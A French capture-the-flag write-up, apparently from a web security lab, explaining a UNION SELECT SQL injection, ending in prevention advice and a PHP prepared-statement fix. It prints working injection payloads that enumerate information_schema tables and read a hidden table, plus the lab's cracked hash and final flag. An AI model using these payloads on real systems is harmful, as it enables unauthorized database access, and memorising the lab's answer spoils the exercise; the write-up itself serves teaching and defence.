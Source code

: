 # Injection SQL avec UNION SELECT

## 1. Introduction
J'ai exploité une **injection SQL de type UNION SELECT** pour récupérer des informations sensibles depuis la base de données. Cette attaque m'a permis de révéler des tables cachées, de lire des données confidentielles, et finalement de décoder un **flag** en utilisant des algorithmes de hachage.

## 2. Comment j'ai trouvé la faille
En examinant le comportement des paramètres dans l'URL, j'ai suspecté une **injection SQL**. J'ai utilisé une **condition fausse (`1 AND 1=2`)** suivie d'un **UNION SELECT** pour combiner mes requêtes avec celles du serveur.

### **Requête pour lister les images**
```sql
1 OR TRUE
```

Cela m'a permis de réveler la liste des images.

![Première injection](images/1.png)

### **Requête pour lister les tables**
```sql
1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables;
```
Cela m'a permis de révéler les schémas et les noms de tables dans la base de données, y compris une table intéressante appelée `list_images`.

![Deuxième injection](images/02.png)

### **Requête pour lire les colonnes de list_images**
```sql
1 AND 1=2 UNION SELECT comment, title FROM list_images;
```
En interrogeant cette table, j'ai obtenu l'information suivante :

```
Title: Hack me ?
Url : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

![Troisième injection](images/3.png)

## 3. Exploitation de la faille
J'ai ensuite utilisé l'information obtenue pour déchiffrer le flag :

1. **Déchiffrement du MD5**
```
1928e8083cf461a51303633093573c46  =>  albatroz
```
J'ai utilisé un site de décryptage MD5 en ligne pour trouver le mot **albatroz**.

![Decryptage](images/4.png)

2. **Conversion en SHA-256**
En utilisant le terminal, j'ai converti le texte déchiffré en SHA-256 :
```bash
echo -n "albatroz" | sha256sum
```
Ce qui m'a donné le flag final :
```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

![Flag](images/5.png)

## 4. Impact de la faille
Cette faille permet de :
- Lister toutes les tables de la base de données.
- Lire les données sensibles depuis n'importe quelle table.
- Contourner les contrôles d'accès en manipulant les requêtes SQL.
- Déchiffrer des informations confidentielles.

## 5. Comment prévenir cette faille
Pour éviter cette injection SQL, il faut :
- **Utiliser des requêtes préparées** (`Prepared Statements`) qui séparent les entrées utilisateur de la logique SQL.
- **Échapper les entrées utilisateur** avec des fonctions dédiées selon le langage de programmation utilisé.
- **Valider les entrées** pour s'assurer qu'elles correspondent aux types de données attendus (par exemple, des entiers pour les IDs).
- **Limiter les permissions de l'utilisateur SQL** pour restreindre l'accès aux schémas et aux tables critiques.

## 6. Comment corriger la faille
Voici un exemple de requête préparée en PHP pour éviter cette injection :
```php
$stmt = $pdo->prepare("SELECT comment, title FROM list_images WHERE id = :id");
$stmt->execute(['id' => $_GET['id']]);
$result = $stmt->fetch();
```
Ce code utilise des **paramètres nommés** et des **requêtes préparées** pour protéger la base de données.

## 7. Conclusion
J'ai utilisé une **injection SQL UNION SELECT** pour énumérer les tables de la base de données, lire des données sensibles, et décoder un flag à l'aide de **MD5** et **SHA-256**. Cette exploitation montre l'importance des **requêtes préparées**, de la **validation stricte des entrées utilisateur**, et de la **gestion des permissions SQL** pour protéger les applications web.


